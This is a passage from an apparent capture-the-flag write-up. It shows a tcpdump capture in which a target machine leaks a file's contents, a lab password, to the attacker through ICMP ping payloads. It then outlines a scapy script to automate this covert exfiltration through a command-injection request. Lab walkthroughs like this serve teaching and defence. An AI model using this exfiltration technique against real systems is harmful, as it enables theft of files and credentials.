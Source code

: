 
    root@kali# tcpdump -i2 -nnXSs 0 icmp                    
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode                
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes   
    09:58:02.737594 IP 10.10.14.15 > 10.10.10.92: ICMP echo reply, id 3786, seq 1, length 64
            0x0000:  4500 0054 9c17 0000 4001 b213 0a0a 0e0f  E..T....@.......
            0x0010:  0a0a 0a5c 0000 03df 0eca 0001 4521 2e5c  ...\........E!.\
            0x0020:  0000 0000 735b 0a00 0000 0000 7061 7373  ....s[......pass   <-- output starts here
            0x0030:  3a20 6c6f 6b69 6973 7468 6562 7061 7373  :.lokiisthebpass   <-- repeats after 16 bytes
            0x0040:  3a20 6c6f 6b69 6973 7468 6562 7061 7373  :.lokiisthebpass
            0x0050:  3a20 6c6f                                :.lo



The first 16 bytes of the file are back: `pass: lokiistheb`

Now, update to `-s 16` for new offset, and run again:



    10:00:24.268269 IP 10.10.14.15 > 10.10.10.92: ICMP echo reply, id 3804, seq 1, length 64
            0x0000:  4500 0054 dcd5 0000 4001 7155 0a0a 0e0f  E..T....@.qU....
            0x0010:  0a0a 0a5c 0000 67a0 0edc 0001 d321 2e5c  ...\..g......!.\
            0x0020:  0000 0000 8e26 0300 0000 0000 6573 746e  .....&......estn
            0x0030:  6f72 7365 676f 640a 3078 6466 6573 746e  orsegod.0xdfestn
            0x0040:  6f72 7365 676f 640a 3078 6466 6573 746e  orsegod.0xdfestn
            0x0050:  6f72 7365                                orse



I see the rest of the file, and my "0xdf", indicating the end of the
file, with contents:

`pass: lokiisthebestnorsegod`

#### Scripted

Then I wanted to take this up a level, so I wrote a python script to
handle this for me. This is certainly beyond necessary, but could come
in handy down the road.

I'll use the same concepts as above, with a few tweaks:

-   Instead of sending a request per 16 bytes, I'll have the command on
    the target loop over the results and send the appropriate number of
    pings. I'll remove newlines from the xxd output, and then use
    `fold -w32` to add a newline every 32 characters (16 bytes). Then
    I'll have bash read line by line and send pings.
-   I'll use the `sniff` function from `scapy`, with a filter to only
    capture ICMP Echo Requests. I'll write a processing function that
    will get the data out of each packet, add it to a buffer, and check
    for my marker to see if I've reached the end of the file. If so,
    I'll print and clear the buffer. I'll also check for packets which
    contain only marker, and ignore those.
-   I'll run the sniffing in a thread, so that it can happen in the
    background while I interact with the loop.
-   I'll have an infinite loop run taking file name, and then using
    requests to send the POST to make the pings come back.

